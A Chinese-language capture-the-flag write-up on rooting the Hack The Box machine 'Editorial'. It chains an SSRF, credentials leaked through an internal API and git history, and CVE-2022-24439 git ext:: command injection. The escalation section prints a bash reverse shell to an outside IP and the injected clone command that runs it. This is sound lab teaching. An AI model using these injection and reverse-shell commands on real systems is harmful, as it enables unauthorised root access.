



## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
nmap -A -O editorial.htb
```


开放端口：`**22**、**80**`

Server：`**nginx 1.18.0** （Ubuntu）`

### Dirsearch

```
dirsearch -u editorial.htb -t 50
```


访问：`http://editorial.htb/upload`


## SSRF

**Burpsuite**开启拦截，点击**Preview**


并且可以访问


由于允许输入url，这里尝试：**`127.0.0.1`**，成功得到回显。


尝试遍历端口服务


当端口为`5000`时，响应包出现不同


访问下载到一个文件


```
sudo apt install jq
cat file | jq
```



查看authors的api


```
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."                                                                                                                                                                                                          
}
```

**Username：`dev`**

**Password：`dev080217_devAPI!@`**

ssh登录，获取到user.txt


## Privildge Escalation

发现隐藏的git目录


查看`git log`




```
'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
```

**Username：`prod`**

**Password：`080217_Producti0n_2023!@`**

```
ssh prod@editorial.htb
```


```
cat /opt/internal_apps/clone_changes/clone_prod_change.py

#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

这个python脚本可以指定一个参数进行仓库克隆。

### CVE-2022-24439

Git 允许自定义协议扩展，这意味着你可以定义自己的协议来处理特定的操作。通过这种机制，用户可以注册自己的协议处理程序，如 `ext::`。当 Git 遇到这种协议时，它会调用与之关联的命令。

百分号`%`可以理解为空格



```
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/hyh'
```

成功写入文件

同样方式写入反弹shell

```
prod@editorial:/opt/internal_apps/clone_changes$ echo "bash -i >& /dev/tcp/10.10.16.8/100 0>&1" >/tmp/revshell.sh

prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_chane_prod_change.py 'ext::sh -c cat% /tmp/revshell.sh|bash'

┌──(root㉿kali)-[/home/kali/Downloads]
└─# nc -lvnp 100
```


## Summary

**目录扫描**出upload页面

URL输入框存在**SSRF漏洞**，根据端口扫描并得到备份文件

**Git Log** 信息泄露获得prod用户权限

prod存在可以sudo执行的文件，**`CVE-2022-24439`**

先写入**反弹shell**文件，再用CVE进行任意文件执行，获取root权限
